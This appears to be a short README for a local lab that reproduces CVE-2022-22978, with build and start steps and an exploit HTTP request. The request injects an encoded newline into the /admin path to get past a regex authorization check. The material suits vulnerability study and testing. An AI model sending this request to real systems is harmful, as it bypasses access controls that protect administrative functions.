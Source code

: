 # CVE-2022-22978

## Build

1. `mvn package`

## Start

1. 使用 IDEA 直接启动

## EXP

```http
GET /admin/1%0d%0a HTTP/1.1
Host: 127.0.0.1:9999
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E8E29D0409C6C153D1C825E11A344082
Connection: close
```

path 中注入任意换行符即可绕过 `admin/.*` 的权限校验